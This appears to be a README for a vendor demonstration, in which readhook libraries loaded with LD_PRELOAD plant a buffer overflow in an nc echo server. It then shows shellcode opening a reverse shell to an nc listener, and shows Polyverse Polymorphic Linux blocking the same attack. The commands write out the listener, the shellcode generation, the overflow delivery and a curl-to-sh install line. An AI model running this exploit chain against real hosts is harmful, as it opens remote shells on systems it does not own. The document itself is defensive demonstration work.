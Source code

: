 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
    nc -kl 5555
## Run a simple nc echo server under Readhook
### (2) Start with a clean alpine:3.7 (Session-2)
    docker run --rm --name echo -it -p 8080:8080 alpine:3.7 sh
### (2) We'll need curl and wget
    apk update && apk add curl wget ca-certificates && update-ca-certificates
### (2) Get readhook components
    wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/v1.1.0/basehook.so
    wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/v1.1.0/fullhook.so
### (2) Start nc with readhook in front of libc
    LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" nc -lk -p 8080 -e /bin/cat
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
## Start a vanilla nc to talk to the echo server container
    export shellCode=$(echo "xyzzxMAKELOADdocker.for.mac.localhost" | nc localhost 8080)
### (3) Send shell-code to the OVERFLOW for a reverse shell
    echo $shellCode | nc localhost 8080
### (1) Check that the overflow resulted in a remote shell
    ls && whoami && exit
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse as the preferred repository
    curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
### (2) Replace standard packages with Polymorphic Linux
    sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
## Test Polyverse Polymorphic Linux
### (2) Re-run the echo-server with (only) basehook.so
    LD_PRELOAD=/tmp/basehook.so nc -l -p 8080 -e /bin/cat
### (3) Try the shellCode with Polymorphic Linux
    echo $shellCode | nc localhost 8080
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally
